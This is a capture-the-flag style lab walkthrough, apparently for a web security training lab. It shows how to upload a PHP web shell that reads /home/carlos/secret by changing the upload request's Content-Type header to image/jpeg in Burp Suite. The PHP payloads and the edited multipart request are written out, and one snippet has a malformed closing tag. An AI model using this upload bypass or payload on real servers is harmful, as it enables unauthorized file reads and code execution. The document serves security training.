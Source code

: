 # Login
![1_0](01.png)
We can log in to your own account using the following credentials: 
```bash
wiener:peter
```
### We know this lab contains image upload function vunerablity. So lets start looking for it.

# Information gathering

![2_0](02.png)

We can upload the image file under Avatar lable.

![3_0](03.png)

From the image we know there is no file restiction to upload. Now we have to create an executable file to execute via web shell.

# Exploit

We have to create a php executable file which contains a script for fetching the contents of (/home/carlos/secret).

```bash
<?php echo file_get_contents('/home/carlos/secret'); ?>
```
or
```bash 
<?php
$sus = file_get_contents('/home/carlos/secret');
echo $sus
>
```

![4_0](04.png)

By uploading the php file we got an error that only jpeg and png file extentions are allowed.

So now we have to forward the php file as image file extention. For that we are using burpsuite.

![5_0](05.png)

Now using Burp Suite Intercept we are intercepting the upload POST request. From the image we can know the Content-Disposition, Content-Type.

```bash
20. -----------------------------1502193731177638880733178657
21. Content-Disposition: form-data; name="avatar"; filename="sus.php"
22. Content-Type: application/x-php
23.
24. <?php echo file_get_contents('/home/carlos/secret'); ?>
```
From the Intercept we have to edit the Content-Type Header of the uploading file. And we have to forward it. In order to do that we have to edit the POST request.

```bash
20. -----------------------------1502193731177638880733178657
21. Content-Disposition: form-data; name="avatar"; filename="sus.php"
22. Content-Type: image/jpeg
23.
24. <?php echo file_get_contents('/home/carlos/secret'); ?>
```

We have edited the POST request. Now Forward the request.

![7_0](07.png)
![8_0](08.png)

Successfully we uploaded the php file.Now we have to retive the output of the executable file.

From the above image we can know our file has been uploaded to files/avatars/. Let's redirect to the directory in URL.

![9_0](09.png)

We got the Solution.

# Conclution
From this lab we gained the basic idea of how to Content type restriction bypass file upload function vunerablity.
